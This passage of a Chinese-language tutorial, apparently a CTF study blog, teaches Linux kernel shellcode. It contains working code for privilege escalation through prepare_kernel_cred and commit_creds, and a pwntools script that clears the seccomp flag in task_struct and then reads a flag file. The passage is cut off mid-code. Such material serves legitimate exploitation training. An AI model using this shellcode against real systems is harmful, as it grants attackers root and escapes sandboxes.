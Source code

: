 **需要注意的是，实际上current->thread_info.flags不是gs:0x0的位置，我们需要手动确定其偏移：可以通过`p/x &current_task`在gdb中查看偏移**<br>
或者，将编译好的驱动通过`insmod`安装到内核当中，可以通过gdb调试获取相应位置:<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2025-9-25/20250927135007.png)



## 5.3 常见的kernel shellcode<br>
### 5.3.1 权限提升<br>
先前提到，权限提升通常是执行`commit_creds(init_cred)`来完成，所以在能够在内核态下执行shellcode时，我们可以编写shellcode执行`commit_creds(init_cred)`即可完成提权。<br>
```c
__attribute__((naked,noinline)) void privilege_escalation_kernel_shellcode(){
    __asm__ (
        "mov rbx, 0xffffffff810895e0;" //prepare_kernel_cred_addr
        "mov rdi, 0;"
        "call rbx;"     //prepare_kernel_cred(0)
        "mov rdi, rax;" 
        "mov rbx, 0xffffffff810892c0;" //commit_creds_addr
        "call rbx;"
        "nop;"
        "ret;"
    );
}
// gcc -fcf-protection=none -masm=intel  xxx.c -o xxx
// -fcf-protection=none 可以去除函数开头的endbr64指令，__attribute__((naked,noinline)) 会让编译器忽略给该函数添加栈帧操作
```
### 5.3.2 seccomp逃逸<br>
用#5.2节提到的方法，我们需要自己编译一个内核模块:<br>
**如果你觉得编译内核太麻烦了，这里有其他方法：commit_cred函数里会用到current宏，所以我们可以直接查看commit_cred函数的汇编即可获取其位置**<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2025-9-25/20251009230737.png)
gdb可以通过`p {struct task_struct} ($gs_base+0x15d00)`来查看结构体:<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2025-9-25/20251009231721.png)

随后，可以利用`pwntools`的汇编模块来帮助我们生成shellcode:<br>
```python
from pwn import *
context.arch = 'amd64'
context.os = 'linux'

escape_seccomp_shellcode = """
mov    rax,QWORD PTR gs:0x15d00
and    QWORD PTR [rax],0xfffffffffffffeff
ret
"""

execute_shellcode = f"""
/*write escape_seccomp_shellcode into kernel_module*/
mov rax, SYS_write
mov rdi, 3
lea rsi, [rip+escape_seccomp_shellcode]
mov rdx, {len(asm(escape_seccomp_shellcode))}
syscall

/*get flag*/
mov rax, SYS_open
lea rdi, [rip+file_name]
mov rsi, O_RDONLY
mov rdx, 511
syscall

mov rdi, rax
```